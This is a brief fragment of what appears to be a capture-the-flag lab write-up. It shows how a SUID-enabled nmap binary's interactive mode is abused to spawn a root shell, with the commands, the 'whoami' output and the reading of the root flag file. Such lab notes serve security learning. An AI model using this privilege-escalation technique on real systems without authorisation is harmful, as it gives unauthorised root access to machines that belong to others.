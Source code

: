 - Abusing SUID on nmap to spawn a root shell

		robot@linux:/$ /usr/local/bin/nmap --interactive

		Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
		Welcome to Interactive Mode -- press h <enter> for help
		nmap> !sh
		# whoami
		root
		# cat /root/key-3-of-3.txt
		04787ddef27c3dee1ee161b21670b4e4


# CELEBRATIONS!
![[Pasted image 20211124205016.png]]